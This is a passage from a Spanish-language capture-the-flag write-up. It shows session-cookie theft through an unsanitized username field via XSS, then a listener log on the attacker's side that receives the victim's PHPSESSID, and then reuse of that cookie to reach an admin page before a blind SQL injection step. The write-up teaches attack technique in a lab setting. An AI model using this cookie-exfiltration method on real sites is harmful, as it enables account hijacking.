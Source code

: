 Al esperar un tiempo, verificamos que al parecer sí había un usuario revisando nuestro formulario. Esto fue posible debido que en el `username` inyectamos el payload **XSS** para el `Cookie Hijacking` porque no estaba sanitizando correctamente y el sitio web tenia el `HttpOnly` en `False`.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.53 - - [05/Feb/2025 01:31:56] "GET /?value=PHPSESSID=ojvduvoofuju8avf7cijqorq6g HTTP/1.1" 200 -
```

Modificamos nuestra cookie de sesión actual y la cambiaremos por la recién robada.

<figure><img src="../../.gitbook/assets/imagen (291).png" alt=""><figcaption></figcaption></figure>

### Executing SQL Injection Blind

Obtenemos una nueva pestaña `admin.php` en la cual nos aparecen los formularios que han sido enviados. Nos ofrecen 3 opciones, visualizar el formulario, aceptarlo y rechazarlo.

Si bien recordamos, esta página de `admin.php` la habíamos enumerado anteriormente en el `/.git/`que encontramos. Esta página solamente tenía acceso el usuario `axel`, lo cual nos confirma que dado que disponemos del acceso a esta página, la cookie de sesión pertenece a dicho usuario.

<figure><img src="../../.gitbook/assets/imagen (292).png" alt=""><figcaption></figcaption></figure>

